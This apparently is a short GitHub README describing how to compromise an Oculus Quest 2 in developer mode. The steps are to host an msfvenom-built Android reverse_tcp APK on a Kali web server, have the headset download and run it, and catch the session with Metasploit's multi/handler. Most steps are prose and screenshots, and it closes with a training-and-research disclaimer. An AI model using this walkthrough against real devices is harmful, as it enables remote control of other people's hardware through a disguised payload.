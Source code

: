# Kali
### Oculus Quest 2 &amp; Kali Linux Exploit

Prerequisite Setup:
Oculus Quest 2 Developer Mode Enabled

Steps:
Configure WebServer from Kali <br/>
sudo python3 -m http.server --bind 127.0.0.1 9000 <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/apache%20webserver.png)

Configure localtunnel for browser redirect (optional) <br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/localtunnel.png)

Confirm access to webserver on custom port
Create msfvenom malicious android .apk & put on desktop<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/msfvenom.png)

Launch msfconsole and use exploit/multi/handler for android reverse_tcp payload & 
set LHOST<br/>
show options<br/>
exploit<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/TCP%20handler.png)

Download & Install androidApp.apk from WebServer<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/oculus%20browser.png)

Run MainActivity com.metasploit.stage<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/unsupported%20apps.png)

Sysinfo<br/>
![This is an image](https://raw.githubusercontent.com/georgebluff/Kali/main/sysinfo.png)

  
  
Links:<br/>
  Access Android with Metasploit Kali (Cybersecurity) - https://www.youtube.com/watch?v=YRm-St0bJhU <br/>
  How To Set Up Port Forwarding in Kali Linux Without Router Access | Kali Linux 2021.2 - https://www.youtube.com/watch?v=juu5PM0_NUI <br/>
  Kali http server setup - https://linuxconfig.org/kali-http-server-setup <br/>
  
Notes: This infomation is for training and security research purposes only.
